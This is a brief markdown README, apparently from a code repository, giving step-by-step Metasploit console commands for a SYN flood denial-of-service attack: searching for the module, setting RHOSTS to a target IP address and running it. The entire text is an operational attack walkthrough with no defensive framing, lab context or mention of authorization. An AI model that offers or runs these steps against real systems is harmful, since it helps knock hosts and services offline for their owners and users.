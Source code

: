 # SYN FLOOD (DOS ATTACK)

## Prerequisite
` Metasploit `

### Step and producre

### Step 1: 
Run all these thing through the terminal 
```
sudo apt-get update
sudo apt-get upgrade -y
```
### step 2:

```
sudo msfconsole 
```

### step 3:
After searching this do use 0 
```
search SYN flood  
```
### step 4: 

```
show options 
```

### step 5: 

```
set RHOSTS <target ip add>
```

### step 6: 
just once for confirmation do the show options 
```
exploit
```

--- 
